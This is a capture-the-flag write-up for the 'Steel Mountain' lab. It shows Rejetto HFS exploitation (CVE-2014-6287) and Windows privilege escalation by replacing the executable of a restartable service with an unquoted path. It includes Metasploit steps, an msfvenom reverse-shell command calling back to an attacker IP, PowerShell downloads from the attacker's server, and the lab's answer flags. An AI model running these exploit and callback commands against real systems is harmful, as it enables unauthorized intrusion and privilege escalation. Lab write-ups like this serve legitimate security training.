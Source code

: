 ```
Steel Mountain
```

```
IP Address: 10.10.253.201, 10.10.230.176
```

```
Task #1 : Introduction
```
Deploy the machine.

1. Who is the employee of the month? => Bill Harper // As soon as we load the web-page there is an image opening the image in different tab shows file name to be BillHarper.png

```
Task #2 : Initial Access
```
Now you have deployed the machine, lets get an initial shell!

1. Scan the machine with nmap. What is the other port running a web server on? => 8080 //nmap -sC -sT 10.10.253.201 -oN nmap/initial.txt
2. Take a look at the other web server. What file server is running? => Rejetto Http File Server // Open the port 8080 and notice the file server link.
3. What is the CVE number to exploit this file server? => 2014-6287 // Quick googling of HFS 2.3 leads to CVE
4. Use Metasploit to get an initial shell. What is the user flag? => 04763b6fcf51fcd7c13abc7db4fd365
	1. msfconsole
	2. search cve-2014-6287
	3. use windows/http/rejetto_hfs_exec
	4. set RHOSTS $IP
	5. set RPORT 8080
	6. set SRVHOST local ip
	7. Show payloads
	9. set payload windows/meterpreter/reverse_tcp
	10. We have a shell
	11. once meterpreter shell is up > search -f user.txt
	12. cd C:\Users\bill\Desktop // cat user.txt 

```
Task #3 : Privilege Esclation
```
Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!


1. To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

	1. wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
	2. mv file to /opt/Powersploit/Privesc
	3. chmod 600 PowerUp.ps1
	4. now from meterpreter session upload the file.
	5. now load powershell in meterpreter
	6. now enter powershell_shell this will load run the powershell in meterpreter session
	7. run the uploaded file . .\Powerup.ps1
	8. now run the command Invoke-AllChecks to perform PrivEsc
2. Take close attention to the CanRestart option that is set to true. What is the name of the unquoted service path service name? => AdvancedSystemCareService9
	1. Check the list displayed after Invoke-AllChecks command
	2. One of the service name AdvancedSystemCareService9 has canRestart premission set to True.
3. The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!
Use msfvenom to generate a reverse shell as an Windows executable.
	1. msfvenom -p windows/shell_reverse_tcp LHOST=10.8.20.244 LPORT=4449 -e x86/shikata_ga_nai -f exe -o ASCService.exe
	2. upload the file using upload module in meterpreter
	3. in meterpreter type shell and press enter
	4. run the command to stop the AdvancedSystemCareService9 service //sc stop AdvancedSystemCareService9
	5. COPY ASCService.exe to C:\Program Files (x86)\IObit\Advanced SystemCare
4. 	What is the root flag? => f314f57607c00fd09803a587db80
	1. sc start AdvancedSystemCareService9
	2. crt c
	3. background the meterpreter session
	4. sessions command will show you the new session created
	5. sessions -i 5 and enter
	6. cd C://Administrator/Desktop
	7. read root.txt using type command

```
Task #4 Access and Escalation Without Metasploit
```
Now let's complete the room without the use of Metasploit.
For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to

1. To begin we shall be using the same CVE. However, this time let's use this exploit.
*Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!*
To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from GitHub!
You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!
	1. Download the exploit from https://www.exploit-db.com/exploits/39161 or use searchsploit
	2. Download the netcat binary from https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe and rename it to nc.exe
	3. Now open the exploit file in text editor and change the local IP address to the one you are working on and port of your choice.
	4. Now in termail run nc -lvnp on port you entered in the exploit file
	5. Run a pythom -m SimpleHTTPServer 80 from the directory you have nc.exe in
	6. now run the exploit using python exploit.py <target_ip> <port>
	7. Notice the python web server getting populated and the netcat binary is uploaded successfully to the target server
	8. Now re run the exploit and notice you have a shell.
2. Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.
Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running. 
What powershell -c command could we run to manually find out the service name?
*Format is "powershell -c "command here"* => Get-Service
	1. In the shell run powershell -c Get-Service
	2. to upload winPEAS to toarget download the winPEAS.exe file and place it in same directory where pytom server is running
	3. Now from target shell execute powershell -c wget "http://10.8.20.244:80/winPEASx86.exe" -outfile "winPEASx64.exe"
	4. winPEAS is uploaded successfully
3. Now let's escalate to Administrator with our new found knowledge.
Generate your payload using msfvenom and pull it to the system using powershell.
Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.
First we need to stop the service which we can do like so;
sc stop AdvancedSystemCareService9
Shortly followed by;
sc start AdvancedSystemCareService9
Once this command runs, you will see you gain a shell as Administrator on our listener!
	1. Just like earlier create a payload using msfvenom and name it ASCService.exe
	2. Copy the payload in the dirctory used as python HTTPServer
	3. Now stop the AdvancedSystemCareService9 using sc stop AdvancedSystemCareService9
	4. Upload the ASCService.exe in the same directory where normal ASCService.exe is placed
	5. use the command to do so powershell -c wget "http://10.8.20.244:80/ASCService.exe" -outfile "ASCService.exe"
	6. In a terminal run nc -lvnp <given_port> and press enter
	7. Now run sc start AdvancedSystemCareService9
	8. Check the new netcat connection and notice you a root shell.
